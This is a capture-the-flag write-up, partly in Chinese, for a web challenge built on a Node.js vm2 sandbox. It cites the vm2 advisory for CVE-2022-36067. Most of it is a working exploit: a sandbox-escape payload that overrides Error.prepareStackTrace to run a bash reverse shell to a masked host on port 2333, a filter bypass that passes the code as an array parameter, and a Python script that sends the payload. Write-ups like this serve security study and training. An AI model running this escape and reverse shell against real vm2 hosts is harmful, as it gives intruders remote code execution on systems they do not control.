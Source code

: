 ![](<./img/Pasted image 20230203085920.png>)

![](<./img/Pasted image 20230203090337.png>)

```
/run.php?code=phpinfo();
```

```
ReferenceError: phpinfo is not defined
```

![](<./img/Pasted image 20230203090553.png>)

```
/run.php?code=new Error().stack
```

![](<./img/Pasted image 20230203090731.png>)

[GHSA-mrgp-mrhc-5jrq](https://github.com/patriksimek/vm2/security/advisories/GHSA-mrgp-mrhc-5jrq)

> vm2 is a sandbox that can run untrusted code with whitelisted Node's built-in modules. In versions prior to version 3.9.11, a threat actor can bypass the sandbox protections to gain remote code execution rights on the host running the sandbox. This vulnerability was patched in the release of version 3.9.11 of vm2. There are no known workarounds.

参考 [Enter "Sandbreak" - Vulnerability In vm2 Sandbox Module Enables Remote Code Execution (CVE-2022-36067)](https://web.archive.org/web/20231001013710/https://www.oxeye.io/resources/vm2-sandbreak-vulnerability-cve-2022-36067)

```javascript
globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();
```

通过替换大法让虚假的`prepareStackTrace`得到执行

![](<./img/Pasted image 20230203100235.png>)

题目存在关键词过滤，通过传递参数数组绕过

# exp

```python
import requests
from urllib.request import quote

url = 'http://xxx.node4.buuoj.cn:81/run.php?code[]={}'

payload = '''globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();'''

requests.get(url.format(quote(payload)))
```

![](<./img/Pasted image 20230203101146.png>)

#Web #nodejs #js #vm2 #Vulnerabilities #escape #RCE #反弹shell 
